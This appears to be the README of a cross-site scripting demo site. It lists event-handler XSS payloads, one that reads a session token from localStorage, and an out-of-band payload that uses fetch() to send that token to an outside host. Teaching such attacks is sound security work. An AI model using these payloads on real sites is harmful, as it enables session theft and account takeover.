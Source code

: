 # XSS Demo
*A live version of this site can be found at https://xss.jamiepegg.com*

## Example: Payloads

* `<code id=x tabindex=1 onfocus=alert(1)></code>`
* `<img src=1 onerror=alert(1) />`
* `<p onmouseover="alert(1)">test</p>`
* `<p onmouseenter="alert(1)">test</p>`

## Example: Stealing a session token from local storage

* `<img src=1 onerror=alert(localStorage.getItem('session')) />`

## Example: OOB exfiltration

*For demo purposes, sites such as https://webhook.site/ can be used*

* `<img src=1 onerror=(fetch(`https://jamiepegg.com?session=${localStorage.getItem('session')}`)) />`
